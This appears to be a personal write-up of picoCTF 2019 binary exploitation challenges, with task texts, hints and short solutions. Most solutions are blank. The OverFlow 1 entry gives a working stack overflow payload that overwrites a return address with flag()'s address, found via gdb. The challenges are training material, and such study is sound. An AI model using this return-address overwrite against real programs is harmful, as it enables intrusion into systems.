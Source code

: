 # Binary Exploitation
## handy-shellcode - Points: 50
This [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode/vuln.c).
- You might be able to find some good shellcode online.
#### Solutions
>
---
## practice-run-1 - Points: 50
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/practice-run-1/run_this) to receive a flag.
- How do you execute a program in a command line?
#### Solutions
> this must use the pico shell to solve.
> ```shell
> ./run_this
> ```
> and get flag.
---
## OverFlow 0 - Points: 100
This should be easy. Overflow the correct buffer in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200/vuln.c).
- Find a way to trigger the flag to print
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
#### Solutions
> connect to pico shell.  
> accordion to [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200.c), the flag will be print when segmentaion fault.  
> overflow it by many character and get flag.
---
##OverFlow 1 - Points: 150
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201/vuln)? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201/vuln.c).
- Take control that return address
- Make sure your address is in Little Endian.
#### Solutions
> rewrite the return address.  
> try  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0" | ./vuln
> ```
> and get "Woah, were jumping to 0x0 !"
> use gdb to find the flag() address.  
> ```shell
> $gdb ./OverFlow 1
> (gdb) disassemble flag
> ```
> the address of flag() is 0x080485e6  
> try the length of \x0, remember the address will be \xe6\x85\x04\x08.  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\xe6\x85\x04\x08" | ./vuln
> ```
> and get the flag.
---
## OverFlow 2 - Points: 250
Now try overwriting arguments. Can you get the flag from this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202/vuln)? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202/vuln.c).
- GDB can print the stack after you send arguments
#### Solutions
> 
---
## Ghost_Diary - Points: 500
Try writing in this [ghost diary](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/Ghost_Diary/ghostdiary). Its also found in /problems/ghost-diary_3_ef159a8a880a083c73a2bb724fc0bfcb on the shell server.
#### Solutions
>

